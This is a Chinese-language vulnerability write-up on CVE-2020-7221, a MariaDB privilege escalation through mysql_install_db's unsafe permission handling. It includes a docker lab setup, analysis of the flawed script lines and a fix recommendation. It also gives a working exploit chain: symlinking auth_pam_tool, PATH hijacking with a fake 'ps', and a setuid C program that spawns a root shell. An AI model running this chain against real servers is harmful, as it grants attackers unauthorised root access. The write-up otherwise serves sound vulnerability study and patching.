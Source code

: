```yaml
---
title: （CVE-2020-7221）Mariadb 提权漏洞
id: zhfly3014
---
```


# （CVE-2020-7221）Mariadb 提权漏洞

## 一、漏洞简介

MariaDB 10.4.7到10.4.11中的mysql_install_db允许将特权从mysql用户帐户升级到root用户，因为chown和chmod的执行不安全，如对auth_pam_tool_dir / auth_pam_tool的chmod 04755的symlink攻击所证明的那样。注意：这不会影响Oracle MySQL产品，该产品以不同的方式实现mysql_install_db。

## 二、漏洞影响

Mariadb 10.4.7到10.4.11

## 三、复现过程

#### docker环境搭建：

> 1.  docker pull mariadb:10.4.8
> 2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

```
find / -name "mysql_install_db" 
```

![image](../img/923052014efeeccd82500cd9a126b9df.png)

在bash脚本上下文中，如果$user被定义则能进入「配置不当」漏洞点。

```
chown $user "$pamtooldir/auth_pam_tool_dir" `chmod 0700 “$pamtooldir/auth_pam_tool_dir”` 
```

这里配置了auth_pam_tool_dir目录的归属权和所有权，权限归属于$user。 （这里是可控点之一）

```
chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" `chmod 04755 “$pamtooldir/auth_pam_tool_dir/auth_pam_tool”` 
```

这里配置了auth_pam_tool文件为0（root）所有权，4755文件权限（4为suid权限）。想要进入这个漏洞点需要$srcdir变量值长度为0才能触发。

关于suid属性：

> SUID属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有SUID权限的话，运行该程序时会以最高权限运行。

##### 回溯 $srcdir 与 $user

1.  $user

![image](../img/ecbfd45e2034d988750cf4f31db2709c.png)

在脚本传递args参数时可控制$user变量。

1.  $srcdir

![image](../img/bc31a66978677d1a394e136e414fb650.png)

也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要$srcdir为空，$user需要设置值。

结合上文描述使用此命令才能触发漏洞点：

```
./mysql_install_db --user=mysql 
```

#### 漏洞复现

寻找suid属性的程序

```
find /* -perm -u=s -type f 2>/dev/null 
```

搜索到的suid属性程序「auth_pam_tool」替换成我们的恶意suid程序。

```
1\. rm auth_pam_tool
2\. ln -s /root/pwn auth_pam_tool
3\. export PATH=.:$PATH
4\. ln -s /bin/bash ps 
```

编写一个具有suid权限的恶意程序：

```
#include <unistd.h>
#include <stdlib.h>
int main(void)
{
    setuid(0);
    setgid(0);
    system("ps");
    return 0;
} 
```

![image](../img/8624d17ebbd3c35b9c97add491bec23f.png)

切换回root，在root权限下运行mysql_install_db脚本（触发修改chmod命令）

![image](../img/f3805060c829c247ac35290d3d318b2b.png)

再回到mysql用户权限下执行auth_pam_tool

![image](../img/5bd62d33121091073ccb03e84b24f073.png)

提权成功。

可以看到这个漏洞是由于suid与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置auth_pam_tool_dir目录权限为root所有：

```
root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir 
```

## 参考链接

> https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um